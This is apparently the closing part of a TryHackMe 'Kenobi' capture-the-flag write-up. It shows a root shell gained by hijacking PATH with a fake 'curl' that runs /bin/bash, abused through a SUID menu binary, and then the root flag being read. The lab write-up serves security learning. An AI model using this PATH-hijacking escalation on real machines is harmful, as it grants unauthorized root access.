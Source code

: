 ```js
kenobi@kenobi:/tmp$ echo /bin/bash > curl 
kenobi@kenobi:/tmp$ chmod +x curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:/tmp# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

# Search for root flag

```js
root@kenobi:/# cd root
root@kenobi:/root# ls
root.txt
root@kenobi:/root# cat root.txt
177b3cd8562289f37382721c28381f02
root@kenobi:/root# 
```


<iframe src="https://tryhackme.com/api/v2/badges/public-profile?userPublicId=3186403" style='border:none;'></iframe>